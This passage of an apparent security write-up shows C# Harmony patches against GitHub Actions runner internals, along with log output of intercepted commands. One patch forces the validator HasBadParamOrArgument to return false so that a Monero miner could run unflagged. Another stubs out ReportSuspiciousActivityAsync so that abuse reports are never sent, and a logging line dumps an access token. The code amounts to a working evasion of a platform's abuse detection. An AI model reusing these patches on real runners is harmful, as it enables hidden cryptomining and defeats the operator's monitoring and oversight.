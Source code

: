 ```csharp

    [HarmonyPostfix]
    [HarmonyPatch(nameof(GitHub.DistributedTask.Pipelines.Validation.ScriptTaskValidator.HasBadParamOrArgument))]
    static void HasBadParamOrArgument_Postfix(string exeAndArgs, ref bool __result)
    {
        //checking result from original function HasBadParamOrArgument(...), it would be True for all processes
        NetworkLogger.GetInstance().Write($"ScriptTaskValidator // HasBadParamOrArgument({exeAndArgs}, ..., ...) = {__result}");
        __result = false; //set result to false to bypass provisioner check ;D
    }
}
```

There is example output after doing this patch:
```
ScriptTaskValidator // HasBadParamOrArgument(dotnet "C:\Program Files\dotnet\dotnet.exe" exec "C:\Program Files\dotnet\sdk\6.0.301\Roslyn\bincore\VBCSCompiler.dll" "-pipename:q1wL+usWKy9lMQy0zJFLX69E5zGeeP3NsF75bARkrok" 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(conhost \??\C:\Windows\system32\conhost.exe 0x4 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(cmd "C:\Windows\system32\cmd.EXE" /D /E:ON /V:OFF /S /C "CALL "D:\a\_temp\b6691e1d-9d87-4460-bf1f-42cf7bfa196d.cmd"" 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(python python  scripts\server.py 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
ScriptTaskValidator // HasBadParamOrArgument(taskhostw taskhostw.exe 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD, ..., ...) = True
```

Such an attack may allow a Monero miner to be launched without reporting suspicious activity.
Speaking of suspicious activity, I can also replace the function that reports it, but I haven't tested that so as not to do anything banned on
the GitHub

Here is example code to do it:
```csharp
[HarmonyPatch(typeof(MachineManagement.Provisioning.MachineManagementClient))]
public class MachineManagementClientPatches
{
    [HarmonyPrefix]
    [HarmonyPatch(nameof(MachineManagement.Provisioning.MachineManagementClient.ReportSuspiciousActivityAsync))]
    static bool ReportSuspiciousActivityAsync(
        long requestId,
        byte[] postRegistrationAccessToken,
        string suspiciousActivity,
        string poolName,
        string instanceName,
        ref Task __result
    )
    {
        var token = Convert.ToHexString(postRegistrationAccessToken);
        NetworkLogger.GetInstance().Write($"MachineManagementClient // ReportSuspiciousActivityAsync({requestId}, {token}, {suspiciousActivity}, {poolName}, {instanceName})");
        __result = new Task(() => {
            //replace task with nothing
        }); 
        return false; //don't call MachineManagementClient.ReportSuspiciousActivityAsync(...)
    }
}
```
